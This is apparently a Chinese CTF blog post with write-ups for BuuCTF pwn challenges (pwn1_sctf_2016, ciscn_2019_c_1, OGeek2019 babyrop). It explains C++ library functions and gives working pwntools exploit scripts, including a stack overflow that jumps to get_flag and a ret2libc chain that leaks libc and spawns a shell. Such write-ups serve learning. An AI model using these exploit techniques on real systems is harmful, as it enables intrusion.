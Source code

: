 ```yaml
---
title: 「BuuCTF」Part I
date: 2020-07-17 09:07:05
cover: https://img.buuoj.cn/buugirl/img.php
tags: 
	- CTF
	- PWN
---
```


*Buu上的题目很多，遇到些感觉需要记录一下的题目就写在这里。*  如有错误还请路过的师傅在评论区指出。

# pwn1_sctf_2016

*这道题没什么难的，主要记录几个C++的标准库函数。*

![](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/BuuCTF1/pwn1_sctf_2016/%E6%88%AA%E5%B1%8F2020-07-17%20%E4%B8%8A%E5%8D%889.22.26.png)

一大堆看起来乱七八糟的函数。这些函数的简单介绍：

```text
fgets
函数原型：char * fgets ( char * str, int num, FILE * stream );
函数功能：
从流中读取字符，并将它们作为C字符串存储到str中，直到已读取（num-1）个字符或到达换行符或到达文件末尾（以先发生的为准）。
换行符使fgets停止读取，但是该函数将其视为有效字符并包含在复制到str的字符串中。
复制到str的字符后会自动附加一个终止的空字符。
请注意，fgets与gets完全不同：fgets不仅接受流参数，而且还允许指定str的最大大小，并在字符串中包括任何结尾的换行符。

std:replace
函数原型：
template <class ForwardIterator, class T>
  void replace (ForwardIterator first, ForwardIterator last,
                const T& old_value, const T& new_value);
函数功能：
替换范围内的值
将new_value分配给[first，last)范围内所有等于old_value的元素。
该函数使用"operator ==" 将各个元素与old_value进行比较。
该功能模板的行为等效于：
template <class ForwardIterator, class T>
  void replace (ForwardIterator first, ForwardIterator last,
                const T& old_value, const T& new_value)
{
  while (first!=last) {
    if (*first == old_value) *first=new_value;
    ++first;
  }
}
参数再介绍：
first, last：将迭代器转发到元素序列中的初始位置和最终位置，这些元素支持比较并分配为T类型的值。
            使用的范围是[first，last），其中包含first和last之间的所有元素，包括由指向的元素 首先但不是最后指出的元素。
old_value：要替换的值。
new_value：新的值

可以暂时粗略地地这样记下： replace (first,last,old_value,new_value);

std::string::operator=(&input, &s);
作用： 就是 将s指针赋值到 inputs地址里了。 


strcpy:
函数原型：char * strcpy ( char * destination, const char * source );
函数功能：  
将source指向的C字符串复制到destination指向的数组中，包括终止的空字符（并在该位置停止）。
为避免溢出，目标指向的数组的大小应足够长，以包含与源相同的C字符串（包括终止空字符），并且在内存中不应与源重叠。

```

文本来源：[紫色仰望合天智汇](https://zhuanlan.zhihu.com/p/138897356)

但是经过简单测试我们就能发现所有的‘I’都会被替换成‘you’。s2原本不会溢出，经过替换再赋值给s2就可以造成溢出。

![](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/BuuCTF1/pwn1_sctf_2016/stack.jpg)

可以看到从s2到返回地址中间还有很多个变量。想要覆盖到返回地址一共需要覆盖64个字节，那么就可以20个I+4个字符来实现溢出，再加上get_flag函数地址即可。总共是28个字节小于32，是可行的。

exp：

```python
from pwn import*
#context.log_level='debug'
res=remote('node3.buuoj.cn',28767)
get_flag=0x08048F0D
payload='I'*20+'N0P3'+p32(get_flag)
res.sendline(payload)
res.interactive()
```

# ciscn_2019_c_1

这道题就是普通ret2libc，踩了个ubuntu18栈对齐的坑，写下exp以备参考

```python
from pwn import*
from LibcSearcher import*
elf=ELF('./ciscn_2019_c_1')
#context.log_level='debug'
res=remote('node3.buuoj.cn',29379)
res.recv()
res.sendline('1')
res.recv()
ret=0x4006b9
pop_rdi=0x400c83
pop_rsi_r15=0x4008a3
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
start=elf.symbols['_start']
payload='A'*0x50+'a'*4+'N0P3'+p64(ret)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(start)
res.sendline(payload)
puts_got=res.recv()
#print(puts_got)
puts_got=puts_got[6*16+7:6*16+8+5]
#print(puts_got)
puts_got=u64(puts_got.ljust(8,'\x00'))
print(puts_got)
if puts_got==0x0:
    print('Attack failed. Please try again.')
else:
    Searcher=LibcSearcher('puts',puts_got)
    offset=puts_got-Searcher.dump('puts')
    res.sendline('1')
    res.recv()
    binsh=Searcher.dump('str_bin_sh')+offset
    system=Searcher.dump('system')+offset
    payload='A'*0x50+'a'*4+'N0P3'+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system)
    res.sendline(payload)
    res.recv()
    res.interactive()
```

payload里需要执行一次ret来使栈对齐。第一个payload会有时会失效，大概每执行3次exp就有一次泄漏失败。原因未知，可能与服务器环境有关。

# [OGeek2019]babyrop

**普通的ret2libc，中间有一个小的绕过姿势。*

![main](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/BuuCTF1/%5BOGeek2019%5Dbabyrop/Main.png)

在主函数使用urandom生成了一个随机数，接着调用了HanShu1。

![HanShu1](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/BuuCTF1/%5BOGeek2019%5Dbabyrop/HanShu1.png)

Line 11把a1格式化后放入了s，bufa是我们输入的字符串，在Line 15两者不相等则直接退出。比较的长度v1是可控的，strlen遇到\x00会截断，所以payload开头放个\x00就可以使比对长度为0，这样就能绕过对比。

这个函数在line 12还有个溢出点能覆盖v5，v5是下一个函数的参数。

![截屏2020-07-18 下午5.16.35](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/BuuCTF1/%5BOGeek2019%5Dbabyrop/Sub.png)

a1就是上个函数的v5，127是0x7f，只要不等于0x7f我们覆盖的值就可以作为read的长度参数了。但是经过测试0xC8也是能在远程打通的，看来服务器运行的程序和这个有点出入。

exp:

```python
#这是后来补的wp，exp手滑覆盖掉了==
```

